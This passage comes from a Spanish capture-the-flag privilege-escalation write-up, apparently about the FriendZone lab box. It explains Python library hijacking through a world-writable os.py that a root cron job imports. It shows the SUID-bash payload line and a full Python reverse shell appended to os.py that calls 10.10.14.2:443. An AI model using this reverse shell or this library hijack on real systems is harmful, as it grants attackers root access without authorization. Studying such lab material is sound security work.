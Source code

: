 Confirmamos que es una tarea cron. 

### Python Library Hijacking

Muy parecido al Library Hijacking pero con librerias en Python. Piensa que os es un programa también os.py y se encuentra en algún lugar, a la hora de buscar las librerías en python también tienen un path:

```sh
❯ python
Python 2.7.2 (default, Mar 18 2024, 17:37:47) 
[GCC 10.2.1 20210110] on linux6
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> print sys.path
['', '/usr/local/lib/python2.7', '/usr/local/lib/python2.7/plat-linux6', '/usr/local/lib/python2.7/lib-tk', '/usr/local/lib/python2.7/lib-old', '/usr/local/lib/python2.7/lib-dynload', '/usr/local/lib/python2.7/site-packages']
```

Cuando haces un import os, buscará esa librería dentro de esos directorios que hay en el path, primeramente empieza a buscar por el directorio actual de trabajo (comillas vacías), que **cuidadin**, no puedes meter la librería en nuestro directorio actual y que funcione esta vez, ya que lo está ejecutando root con su sesión. Si ese programa corriera con prvilegios de sudo para mi o SUID entonces si podríamos meter un archivo que se llamará igual en mi directorio actual y como estoy ejecutando el binario como root si que usaría mi path y funcionaría.  
Pero se puede hacer otra cosa si tenemos permisos de escritura en esa libreria que importa.

```sh
friend@FriendZone:/dev/shm$ locate os.py
/usr/lib/python2.7/os.py
/usr/lib/python2.7/os.pyc
/usr/lib/python2.7/dist-packages/samba/provision/kerberos.py
/usr/lib/python2.7/dist-packages/samba/provision/kerberos.pyc
/usr/lib/python2.7/encodings/palmos.py
/usr/lib/python2.7/encodings/palmos.pyc
/usr/lib/python3/dist-packages/LanguageSelector/macros.py
/usr/lib/python3.6/os.py
/usr/lib/python3.6/encodings/palmos.py

# En el primero que busca después del directorio actual de la sesión de root es en /usr/lib/python2.7
friend@FriendZone:/dev/shm$ cd /usr/lib/python2.7
friend@FriendZone:/usr/lib/python2.7$ find -type f -writable -ls
    20473     28 -rwxrwxrwx   1 root     root        26119 Mar 21 15:47 ./os.py
```
Parece que tenemos permiso de escritura en la libreria que importa, que seguramente la importará de ahí (es la segunda en orden después de carpeta actual de sesión de root). Puedo añadir lo que quiera y se ejecutará cuando lo importe con la tarea cron. Normalmente al final añado una línea como esta `system ("chmod 4755 /bin/bash")`, para tener permiso de SUID a la bash -no face falta que le añada el os.system ya que estoy en el propio os-. Pero en este caso parece existir una reverse shell de python al final del os, así que aprovecho:

```sh
friend@FriendZone:/usr/lib/python2.7$ nano os.py

... SNIP ....
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.2",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
```
